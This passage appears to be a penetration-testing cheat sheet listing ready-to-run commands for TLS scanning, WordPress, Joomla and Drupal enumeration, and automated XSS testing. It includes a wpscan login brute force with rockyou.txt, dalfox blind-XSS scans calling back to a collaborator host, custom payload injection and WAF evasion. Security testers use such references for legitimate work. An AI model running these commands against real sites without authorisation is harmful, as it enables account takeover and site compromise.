     :- Run all checks (each flag is a check group)
    testssl.sh -e -E -f -U -S -P -Q https://target.com
    
    :- Check supported protocols
    testssl.sh --protocols https://target.com
    
    :- Check ciphers per protocol
    testssl.sh --cipher-per-proto https://target.com
    
    :- Show details for each cipher
    testssl.sh --show-each-cipher https://target.com
    
    :- SSLyze for SSL/TLS scanning
    sslyze --regular target.com:443


#### 3.1.3 CMS Specific Scanning
    :- WordPress: Enumerate vulnerable plugins/themes, users etc.
    wpscan --url https://wordpress-site.com --enumerate vp,vt,tt,cb,dbe -o wpscan_enum.txt 
    
    :- With API token
    wpscan --url https://wp.com --api-token YOUR_WPSCAN_API_TOKEN --random-user-agent -o wpscan_api.txt 
    
    :- Enumerate users, aggressive plugin detection
    wpscan --url https://wp.com -e u --plugins-detection aggressive -o wpscan_aggressive.txt 
    
    :- Brute force login
    wpscan --url https://wp.com --passwords rockyou.txt --usernames admin,editor -o wpscan_brute.txt 

    
    :- Joomla vulnerability scanner, enumerate components
    joomscan --url https://joomla-site.com -ec -o joomscan_report.txt
    
    :- Drupal scanner, enumerate all, 20 threads
    droopescan scan drupal -u https://drupal-site.com -e a -t 20 -o droopescan_report.txt 


### 3.2 XSS Testing
    :- Automated XSS with blind payload
    dalfox url 'https://target.com/search?q=FUZZ' -b your.burpcollaborator.net -o dalfox_basic.txt 
    
    :- Scan URLs from file, skip basic auth vuln
    dalfox file list_of_urls_with_params.txt --skip-bav -o dalfox_from_file.txt 
    
    :- Test POST request
    dalfox url 'https://target.com/page' --data 'param1=test&param2=FUZZ' -X POST -o dalfox_post.txt 
    
    :- Use custom payloads
    dalfox url 'https://target.com/reflect' --custom-payload xss_payloads.txt -o dalfox_custom.txt 
    
    :- DOM XSS mining
    dalfox url 'https://target.com' --mining-dom --deep-domxss -o dalfox_dom.txt 
    
    :- Attempt WAF evasion techniques
    dalfox url 'https://target.com' --waf-evasion -o dalfox_waf.txt

    
    :- Crawl and test, provide seeds
    xsstrike -u "https://target.com/search?q=test" --crawl -t 10 -l 3 --seeds seeds.txt -o xsstrike_crawl.html 
    